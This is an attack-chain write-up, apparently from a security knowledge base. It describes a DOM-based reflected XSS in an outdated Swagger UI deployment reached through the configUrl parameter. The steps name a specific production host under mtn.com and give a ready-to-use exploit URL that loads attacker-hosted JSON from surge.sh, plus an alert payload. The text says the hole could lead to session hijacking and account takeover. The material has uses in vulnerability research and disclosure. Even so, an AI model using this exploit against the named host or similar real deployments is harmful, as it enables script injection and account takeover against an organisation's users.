

# DOM-based Reflected XSS in Swagger UI via Malicious configUrl

Multi-stage attack chain demonstrating exploitation of a DOM-based reflected XSS vulnerability in Swagger UI, leading to arbitrary JavaScript execution and potential account takeovers on *.mtn.com domains.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)

### Target Environment

- Web platform with Swagger UI deployed
- Accessible notification server endpoint
- Outdated Swagger UI version vulnerable to configUrl manipulation

### Initial Access Requirements

- Public network access to the target URL
- No credentials required for initial exploitation
- Ability to host external JSON files (e.g., via free hosting services like Surge.sh)

## Detailed Attack Procedures

### Step 1: Navigate to Vulnerable Endpoint with Malicious configUrl
procedure: [[procedures/Exploit-DOM-based-XSS-in-Swagger-UI-via-configUrl]]

**Objective**: Load the Swagger UI page with a manipulated configUrl parameter pointing to a malicious external JSON file, triggering DOM-based XSS.

**Instructions**: Construct the target URL by appending the configUrl parameter to the Swagger UI index.html endpoint. For example, use a browser to navigate to:

https://notification-server-v2.sz-my.mtn.com/index.html?configUrl=https://jumpy-floor.surge.sh/test.json

Replace the external URL with one hosting a JSON file containing malicious JavaScript, such as an alert() payload for testing.

**Expected Output**: The page loads the Swagger UI, fetches the external JSON, and executes the embedded JavaScript in the DOM.

**Success Indicators**:
- Page renders without errors
- Malicious script begins processing (e.g., network requests or DOM modifications)

### Step 2: Verify Script Execution
procedure: [[procedures/Exploit-DOM-based-XSS-in-Swagger-UI-via-configUrl]]

**Objective**: Confirm successful XSS by observing the effects of the injected script, such as a popup alert or other indicators of execution.

**Instructions**: After loading the URL from Step 1, monitor the browser for execution indicators. The malicious JSON should trigger an immediate alert popup if using a simple payload like {"scripts": ["alert('XSS')"]}.

**Expected Output**: An alert dialog appears in the browser, or console logs show script execution.

**Success Indicators**:
- Alert popup or console message confirming injection
- No CSP or sanitization blocks the execution

## Attack Chain Summary

### Key Achievements

1. Identified and exploited outdated Swagger UI for DOM-based XSS
2. Demonstrated arbitrary JavaScript execution via external JSON loading
3. Highlighted potential for session hijacking or account takeovers on *.mtn.com

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
